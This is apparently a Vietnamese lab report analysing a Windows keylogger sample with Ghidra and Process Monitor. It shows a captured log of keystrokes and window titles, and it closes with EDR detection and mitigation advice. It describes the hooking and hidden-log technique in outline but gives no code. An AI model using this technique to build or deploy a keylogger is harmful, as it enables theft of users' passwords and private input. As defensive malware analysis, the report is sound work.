

Trong hàm LowLevelKeyboardProc, Ghidra decompile ra pseudocode cho thấy rõ luồng xử lý: xử lý phím đặc biệt qua switch/case, gọi ToUnicode để decode ký tự thường, rồi WriteFile để ghi vào log.
## 3.5 Tạo Jara rules



# 4. Phân tích động

## 4.1 Quan sát với Process Monitor
Ngay khi keylogger khởi động, Process Monitor ghi nhận sự kiện CreateFile trỏ đến C:\Users\...\AppData\Local\Temp\syslog.dat với attribute HIDDEN và SYSTEM đây là thời điểm file log được tạo. Tiếp theo, mỗi khi người dùng nhấn một phím, xuất hiện một sự kiện WriteFile đến cùng đường dẫn đó. Các sự kiện WriteFile này liên tục xuất hiện theo từng keystroke trong suốt thời gian malware chạy.







## 4.3 Kết quả — Nội dung file syslog.dat
Sau khi chạy keylogger và thực hiện thao tác thử nghiệm mở Chrome, gõ địa chỉ web, chuyển sang cửa sổ khác nội dung file syslog.dat ghi lại chính xác:

| === SESSION START 01/03/2026 22:20:54 === [Window: Search] tag [Window: New Tab - Google Chrome] facebook.comlongday.comhehehe[BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE] [Window: Search] r |
| --- |

File log ghi lại đầy đủ mọi keystroke kèm theo tên cửa sổ active tại thời điểm gõ. Attacker nhìn vào đây biết được người dùng đang gõ gì vào Chrome, Notepad hay bất kỳ ứng dụng nào khác. Nếu nạn nhân gõ username và password vào trang đăng nhập, toàn bộ thông tin đó sẽ xuất hiện trong file này.
# 5. Nhận xét
## 5.1 Đánh giá sample
Sample hoạt động đúng như thiết kế bắt được toàn bộ keystroke, ghi đúng context cửa sổ, file log được ẩn và có timestamp rõ ràng.
## 5.2 Phòng chống
Từ góc độ phòng thủ, keylogger dạng này có thể bị phát hiện thông qua behavioral detection của EDR pattern SetWindowsHookEx(WH_KEYBOARD_LL) kết hợp WriteFile liên tục đến %TEMP% là dấu hiệu đặc trưng.
Người dùng có thể giảm thiểu rủi ro bằng cách dùng password manager thay vì gõ tay, bật 2FA để dù mật khẩu bị đánh cắp vẫn an toàn, và không chạy file từ nguồn không rõ ràng
